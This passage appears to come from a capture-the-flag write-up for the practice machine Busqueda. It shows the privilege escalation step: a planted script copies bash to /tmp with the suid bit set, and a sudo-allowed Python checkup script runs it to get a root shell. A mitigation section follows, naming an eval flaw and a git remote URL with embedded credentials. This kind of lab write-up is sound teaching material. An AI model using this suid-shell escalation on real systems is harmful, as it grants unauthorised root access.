 My script was executed instead of the one in `/opt/scripts`. I modified it to copy `bash` and set the suid bit on it.

```bash
svc@busqueda:~$ cat full-checkup.sh 
#!/usr/bin/bash

cp /usr/bin/bash /tmp
chmod u+s /tmp/bash

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!

svc@busqueda:~$ ls -ltr /tmp/
total 1392
drwx------ 3 root root    4096 Apr 29 11:18 systemd-private-249c9d6763b340caae3d0717ff5b81ad-systemd-resolved.service-V5FTum
drwx------ 3 root root    4096 Apr 29 11:18 systemd-private-249c9d6763b340caae3d0717ff5b81ad-systemd-timesyncd.service-c3trPg
drwx------ 3 root root    4096 Apr 29 11:18 systemd-private-249c9d6763b340caae3d0717ff5b81ad-systemd-logind.service-kvSskR
drwx------ 3 root root    4096 Apr 29 11:18 systemd-private-249c9d6763b340caae3d0717ff5b81ad-ModemManager.service-2Z0BgM
drwx------ 3 root root    4096 Apr 29 11:18 systemd-private-249c9d6763b340caae3d0717ff5b81ad-apache2.service-Wjhdh3
drwx------ 3 root root    4096 Apr 29 11:18 snap-private-tmp
drwx------ 2 root root    4096 Apr 29 11:18 vmware-root_729-4257135007
-rwsr-xr-x 1 root root 1396520 Apr 29 13:08 bash

svc@busqueda:~$ /tmp/bash -p

bash-5.1# whoami
root

bash-5.1# cat /root/root.txt 
REDACTED
```

## Mitigation

This machine had three vulnerabilities that allowed me to get to root. The first one was the outdated version of Searchor that used `eval` on user-supplied data. An update of the application's dependencies would have stopped me from gaining access to the server.

The next issue was having a git repository on the server. Especially with the remote using a URL with credentials in it.

```bash
svc@busqueda:/var/www/app$ git remote -v
origin  http://cody:REDACTED@gitea.searcher.htb/cody/Searcher_site.git (fetch)
origin  http://cody:REDACTED@gitea.searcher.htb/cody/Searcher_site.git (push)
```
